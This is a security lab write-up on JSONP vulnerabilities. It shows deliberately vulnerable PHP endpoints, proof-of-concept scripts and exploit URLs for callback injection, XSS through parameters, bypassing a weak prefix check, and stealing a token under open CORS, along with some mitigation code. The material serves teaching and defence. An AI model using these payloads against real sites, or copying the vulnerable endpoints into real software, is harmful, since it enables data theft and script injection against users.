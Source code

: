 # JSONP

Code Vulnerable

```html
<?php
session_start();

if($_SESSION['islogin'] != 1){
    header("Location: login.php");
    die();
}

?>
<html>
  <head>
    <title>Books Library</title>
    <link rel="stylesheet" type="text/css" href="../style/css.css">
  </head>
  <body id="bodyId">
    <div class="header">
      <a href="index.php" class="logo">Books Library</a>
      <div class="header-right">
        <a href="index.php">Home</a>
        <a class="active" href="profile.php">Profile</a>
        <a href="login.php">Login</a>
      </div>
    </div>
    <div id=output>
    	
    </div>
    <div class="container">
    	**<script type="text/javascript">
    		function userInfo(data){
    			var name = '<center><span>User Name: '+data["username"]+'</span><br>',
    				email = '<span>Email: '+data['email']+'</span><br>',
    				fname = '<span>Full Name: '+data['Full Name']+'</span></center>';
    			document.getElementById('output').innerHTML = name+email+fname;
    		}
    	</script>**
    	<script src="<http://vuln.labs/labs/jsonp/info.php?callback=userInfo>"></script>
    </div>
  </body>
</html>
```

POC

```jsx
**<script>
	function userInfo(data){
		document.write(JSON.stringify(data))
	}
</script>
<script src='<http://localhost/labs/jsonp/info.php?callback=userInfo>'></script>**
```

Mitigation

Use CORS Instead of JSONP

Strict Callback Validation

```php
<?php
header('Content-Type: application/javascript');

**$allowed_callbacks = ['safeFunction'];**
$callback = $_GET['callback'];

if (in_array($callback, $allowed_callbacks)) {
    $data = [
        "name" => "John Doe",
        "email" => "john@example.com"
    ];

    echo $callback . '(' . json_encode($data) . ');';
} else {
    echo 'console.error("Invalid callback function.");';
}

```

JSONP Content-Type Validation

More Complex

#### Scenario 1: Exploiting with Malicious Parameters

```jsx
<?php
header('Content-Type: application/javascript');

$callback = $_GET['callback'];
$name = isset($_GET['name']) ? $_GET['name'] : 'John Doe';
$email = isset($_GET['email']) ? $_GET['email'] : 'john@example.com';

$data = [
    "name" => $name,
    "email" => $email
];

// Vulnerable JSONP response with user input
echo $callback . '(' . json_encode($data) . ');';

```

exploit

```jsx
<http://localhost/vulnerable_server.php?callback=stealData&name=><script>alert('XSS')</script>&email=attacker@example.com

```

get XSS and JSONP data

<figure><img src="../../.gitbook/assets/image (6) (1) (1).png" alt=""><figcaption></figcaption></figure>

#### Scenario 2: Bypassing Weak Validation

```jsx
<?php
header('Content-Type: application/javascript');

$callback = $_GET['callback'];
$allowed_callbacks = ['safeFunction'];

if (strpos($callback, 'safe') === 0) {
    $data = [
        "name" => "John Doe",
        "email" => "john@example.com"
    ];

    echo $callback . '(' . json_encode($data) . ');';
} else {
    echo 'console.error("Invalid callback function.");';
}
```

#### Exploit

```jsx
<http://vulnerable.com/vulnerable_server.php?callback=safeStealData>
```

#### Scenario 4: JSONP Hijacking via CORS Misconfiguration

#### CORS-Enabled

```php
<?php
header('Access-Control-Allow-Origin: *'); // Wide open CORS policy
header('Content-Type: application/javascript');

$callback = $_GET['callback'];
$data = [
    "token" => "58rec269qs4a9w8ewd2a6ghy6", // Sensitive data
];

echo $callback . '(' . json_encode($data) . ');';

```

Exploit

```javascript
<script>
function safeStealData(data) {
    console.log("Stolen token:", data.token);
    // Further actions like sending the token to the attacker's server
}
</script>
<script src="<http://localhost/labs/jsonp/plus/vuln_server3.php?callback=safeStealData>"></script>
```

Scenario 5: Advanced URL Manipulation

```php
<?php
header('Content-Type: application/javascript');

$callback = **urldecode**($_GET['callback']);
$data = [
    "name" => "John Doe",
    "email" => "john@example.com"
];

echo $callback . '(' . json_encode($data) . ');';
```
